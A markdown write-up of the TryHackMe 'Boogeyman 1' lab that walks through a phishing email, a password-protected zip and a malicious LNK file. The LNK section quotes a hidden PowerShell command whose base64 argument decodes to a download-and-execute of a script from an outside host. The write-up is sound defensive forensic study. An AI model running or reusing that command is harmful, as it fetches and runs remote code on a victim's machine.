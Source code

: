 <DOCUMENT filename="Boogeyman_1_CTF_Notes_CLEANED.md">
⚠️ Ethical Use Notice ⚠️

  ---
These notes are based on a **lab-based simulation** from TryHackMe's 'Boogeyman 1' CTF challenge, designed solely for **educational and ethical hacking purposes**. All sensitive information, including domains, IP addresses, email addresses, and passwords, has been redacted to ensure compliance with ethical standards and to maintain professionalism for portfolio presentation. Real-world exploitation, unauthorized scanning, or any form of illegal activity is strictly condemned.

# Boogeyman 1 CTF Notes

**Overview**:  
These notes document my investigation process for the Boogeyman 1 Capture The Flag (CTF) challenge on TryHackMe. The challenge involved analyzing a phishing attack, investigating malicious PowerShell activity, and performing network forensics to uncover data exfiltration. The notes showcase skills in email analysis, command-line tools (`unzip`, `lnkparse`, `jq`), PowerShell log parsing, and network analysis with Wireshark and Tshark. The Tshark section was inspired by a TryHackMe walkthrough, which helped deepen my familiarity with the tool.

**Skills Demonstrated**:  
- Email and phishing analysis  
- File extraction and analysis (`unzip`, `lnkparse`, CyberChef)  
- PowerShell log parsing (`jq`, `grep`)  
- Network forensics (Wireshark, Tshark)  
- Understanding of malware execution and data exfiltration techniques

**Personal Notes**:  
The attacker used `sq3.exe` to target an SQLite database, likely for data extraction. This is a critical artifact for future investigations.

## Email Investigation

**Phish Email Details**:  
- Sender: [redacted]@[redacted].xyz  
- Victim: [redacted]@[redacted].com

**Zip File Analysis**:  
- Command: `unzip -l Invoice.zip`  
  - **Purpose**: Lists the contents of `Invoice.zip` without extracting, revealing a password-protected file named `Invoice_20230103.lnk`.

- Found password in email data: [redacted]  
- Command: `unzip -P [redacted] Invoice.zip`  
  - **Purpose**: Extracts the contents of `Invoice.zip` using the provided password, inflating the file `Invoice_20230103.lnk`.

**LNK File Analysis**:  
- Used `lnkparse` on `Invoice_20230103.lnk` to extract embedded command line arguments:  
  - Encoded command: `-nop -windowstyle hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAYwBrAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==`  
  - **Purpose**: `lnkparse` extracts metadata and command line arguments from the Windows shortcut (.lnk) file.
